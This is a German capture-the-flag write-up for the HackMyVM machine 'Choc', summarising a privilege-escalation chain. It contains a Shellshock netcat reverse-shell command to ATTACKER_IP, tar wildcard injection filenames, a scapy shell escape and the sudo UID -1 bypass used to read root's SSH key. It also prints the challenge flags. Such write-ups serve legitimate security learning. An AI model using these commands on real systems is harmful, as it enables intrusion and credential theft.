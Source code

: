 # Choc - HackMyVM (Hard)

![Choc.png](Choc.png)

## Übersicht

*   **VM:** Choc
*   **Plattform:** [https://hackmyvm.eu/machines/machine.php?vm=Choc](https://hackmyvm.eu/machines/machine.php?vm=Choc)
*   **Schwierigkeit:** Hard
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 07. Oktober 2022
*   **Original-Writeup:** [https://alientec1908.github.io/Choc_HackMyVM_Hard/](https://alientec1908.github.io/Choc_HackMyVM_Hard/)
*   **Autor:** Ben C.

## Kurzbeschreibung

Die Challenge "Choc" auf HackMyVM (Schwierigkeit: Hard) ist eine komplexe Maschine, die mehrere Eskalationsschritte erfordert. Der Weg zum Root-Zugriff beinhaltet die Ausnutzung eines falsch konfigurierten FTP-Servers, einer Shellshock-Schwachstelle, einer Tar Wildcard Injection durch einen unsicheren Cronjob und schließlich die Ausnutzung einer `sudo` UID -1 Bypass-Schwachstelle (CVE-2019-14287). Jeder Schritt erfordert sorgfältige Enumeration und das Verknüpfen verschiedener Hinweise.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `ftp` / `lftp`
*   `ssh`
*   `nc` (Netcat)
*   `find`
*   `tar` (für den Exploit)
*   `scapy` (innerhalb von `sudo` zur Eskalation)
*   `wall` (zur Ausnutzung der `sudo` UID -1 Bypass Schwachstelle)
*   Standard Linux-Befehle (`ls`, `cat`, `echo`, `chmod`, `sudo`, `id`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Choc" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration:**
    *   IP-Findung mittels `arp-scan` (`192.168.2.120`).
    *   `nmap`-Scan identifizierte offene Ports: FTP (21/tcp - vsftpd 3.0.3) und SSH (22/tcp - OpenSSH 7.9p1).
    *   Der FTP-Server erlaubte anonymen Login und enthielt eine global les-/schreibbare `id_rsa`-Datei.

2.  **Initial Access (Shellshock via SSH):**
    *   Die `id_rsa`-Datei wurde vom FTP-Server heruntergeladen. Ein Kommentar im Schlüssel (`carl@choc`) wies auf den Benutzer `carl` hin.
    *   Ein direkter SSH-Login mit dem Schlüssel als `carl` führte zu einem sofortigen Verbindungsabbruch nach dem Anzeigen eines Banners.
    *   Dies deutete auf eine mögliche Shellshock-Anfälligkeit hin.
    *   Ausnutzung von Shellshock (CVE-2014-6271) durch Senden eines präparierten Befehls beim SSH-Login: `ssh carl@choc.hmv -i id_rsa '() { :;}; nc ATTACKER_IP PORT -e /bin/bash'`.
    *   Eine Reverse Shell als Benutzer `carl` wurde erlangt.

3.  **Privilege Escalation (von `carl` zu `torki` via Tar Wildcard Injection):**
    *   Enumeration als `carl` ergab ein Backup-Skript (`/home/torki/backup.sh`) und ein Archiv (`/tmp/backup_home.tgz`), das dem Benutzer `torki` gehörte.
    *   Annahme eines Cronjobs, der `backup.sh` als `torki` ausführt und `tar` unsicher mit Wildcards verwendet.
    *   Erstellung von speziell benannten Dateien (`--checkpoint=1`, `--checkpoint-action=exec=sh pwn.sh`) und einem Payload-Skript (`pwn.sh` für eine Reverse Shell) im Verzeichnis `/home/torki/secret_garden/`.
    *   Nachdem der Cronjob (vermutlich minütlich) lief, wurde `pwn.sh` durch die Tar Wildcard Injection ausgeführt, und eine Reverse Shell als Benutzer `torki` wurde erlangt.

4.  **Privilege Escalation (von `torki` zu `sarah` via sudo/scapy):**
    *   `sudo -l` als `torki` zeigte, dass `/usr/bin/scapy` als Benutzer `sarah` ohne Passwort ausgeführt werden darf.
    *   Innerhalb der `scapy`-Umgebung wurde mit `import pty; pty.spawn("/bin/bash")` eine Shell als `sarah` erlangt.

5.  **Privilege Escalation (von `sarah` zu `root` via sudo UID -1 Bypass):**
    *   Als `sarah` wurde die `sudo` UID -1 Bypass Schwachstelle (CVE-2019-14287) ausgenutzt.
    *   Mit `sudo -u#-1 wall /root/r00t.txt` wurde die Root-Flag (`inesbywal`) ausgelesen.
    *   Mit `sudo -u#-1 wall /root/.ssh/id_rsa` wurde der private SSH-Schlüssel von `root` ausgelesen.
    *   Nach Bereinigung des Schlüssels (Entfernung von Leerzeichen, die `wall` hinzufügt) und Speichern in einer lokalen Datei (`rooter`) erfolgte der SSH-Login als `root` mit diesem Schlüssel.

## Wichtige Schwachstellen und Konzepte

*   **Unsicherer FTP-Server:** Anonymer Zugriff und Ablage eines privaten SSH-Schlüssels mit unsicheren Berechtigungen.
*   **Shellshock (CVE-2014-6271):** Ausgenutzt über SSH, um initialen Zugriff als `carl` zu erhalten.
*   **Tar Wildcard Injection:** Ein unsicherer Cronjob, der `tar` mit Wildcards verwendete, ermöglichte die Ausführung von Code als `torki`.
*   **Unsichere `sudo`-Konfiguration (Scapy):** `torki` konnte `scapy` als `sarah` ausführen, was einen Shell-Escape ermöglichte.
*   **`sudo` UID -1 Bypass (CVE-2019-14287):** `sarah` konnte diese Schwachstelle ausnutzen, um Befehle (wie `wall`) als `root` auszuführen und so sensible Dateien zu lesen.
*   **Kombination von Schwachstellen:** Die Kompromittierung erforderte die Verkettung mehrerer unterschiedlicher Schwachstellen und Eskalationstechniken.

## Flags

*   **User Flag (vermutlich `/home/carl/user.txt` oder `/home/torki/user.txt`):** `pleasefuckme`
*   **Root Flag (`/root/r00t.txt`):** `inesbywal`

## Tags

`HackMyVM`, `Choc`, `Hard`, `FTP Misconfiguration`, `Shellshock`, `Tar Wildcard Injection`, `Sudo Exploitation`, `CVE-2019-14287`, `Privilege Escalation`, `Linux`, `SSH`, `Cronjob`
